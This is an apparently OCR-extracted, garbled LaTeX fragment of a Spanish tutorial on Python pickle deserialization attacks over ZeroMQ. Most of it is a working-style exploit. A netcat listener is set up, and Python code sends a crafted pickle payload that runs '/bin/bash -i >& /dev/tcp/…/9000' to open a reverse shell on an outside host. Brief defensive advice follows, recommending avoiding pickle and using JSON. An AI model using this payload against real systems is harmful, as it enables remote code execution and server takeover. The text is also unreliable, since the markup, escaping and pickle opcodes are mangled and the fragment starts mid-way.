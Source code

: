 \documentclass[a4paperx]{article}
\begin{document}
\begin{enumerate}
server = Server()\\
server.recv()\\

Luego abrimos un netcat con comando nc -l -p 9000 en un servidor accesible y corremos siguiente c\'odigo :\\

import sys\\
import zmq\\

def main():\\
 \quad   server\_host = $'98.76.54.32'$ \\
  \quad  netcat\_host = $'12.34.56.78'$ \\

   \quad context = zmq.Context()\\
 \quad   zmq\_socket = context.socket(zmq.PUSH)\\
 \quad   zmq\_socket.connect('tcp:// \%s:1234' \% server\_host)\\

   \quad shellcode = cposix $ \setminus $ nsystem $\setminus $ np0$\setminus$ n(S'/bin/bash -i \&gt;\&amp; /dev/tcp/\%s/9000\\
   
 \&gt;\&amp;1'$ \setminus $p1$ \setminus $tp2$ \setminus $Rp3$ \setminus $." \% netcat\_host\\
  \quad  zmq\_socket.send(shellcode)\\
 \quad   \# we get a reverse shell on the netcat host\\

if \_name\_ == "\_main\_":\\
. \qquad main()

Hay muchas cosas por hacer para mejorar estos problemas, primero defender tu estructura de tu servidor como la base de datos encriptando con tablas hash las contrase\~nas de tus usuarios, y s\'olo confiar en datos enviados desde tu servidor como memoria cah\'e u otros destinos o s\'olo aceptar de servidores con certifica.\\

\begin{enumerate}

\item{S\'olo evitar accesos}\\

La forma más fácil de protegernos es no usar pickle a menos que sea realmente necesario, y verificar nuestras dependencias para ver si son vulnerables a estos (y otros) ataques. Si todo lo que necesitamos es un formato de serialización para datos, JSON probablemente sea suficiente.\\


\end{enumerate}
\end{enumerate}
\end{document}
